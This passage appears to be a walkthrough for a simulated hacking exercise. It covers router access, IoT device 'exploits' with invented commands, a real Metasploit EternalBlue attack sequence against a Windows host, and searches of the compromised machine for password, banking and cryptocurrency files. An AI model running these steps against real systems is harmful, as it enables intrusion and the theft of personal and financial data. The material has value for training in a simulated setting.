 ### Step 10: Router Exploitation
```bash
# Access router admin panel
ssh admin@192.168.1.1

# Or use web interface exploit
exploit --type router --target 192.168.1.1
```
Router access allows:
- Network traffic routing
- DNS spoofing
- Firewall rule modification
- Device isolation

### Step 11: IoT Device Compromise
```bash
# Exploit smart TV vulnerability
exploit --type smart-tv --target 192.168.1.105

# Access security camera
exploit --type camera --target 192.168.1.108
```
IoT exploitation provides:
- Device control and monitoring
- Microphone/camera access
- Network lateral movement
- Persistent backdoor installation

## 💻 Phase 4: Computer System Access

### Step 12: Windows PC Penetration
```bash
# Use Metasploit framework
metasploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.110
exploit
```
This simulates:
- SMB vulnerability exploitation
- Remote code execution
- Meterpreter shell access
- System privilege escalation

### Step 13: File System Exploration
```bash
# Browse compromised system
ls /home/
ls /Documents/
cat /Documents/passwords.txt
cat /Documents/banking_info.txt
```
Look for valuable files:
- Password databases
- Banking information
- Personal documents
- Cryptocurrency wallets

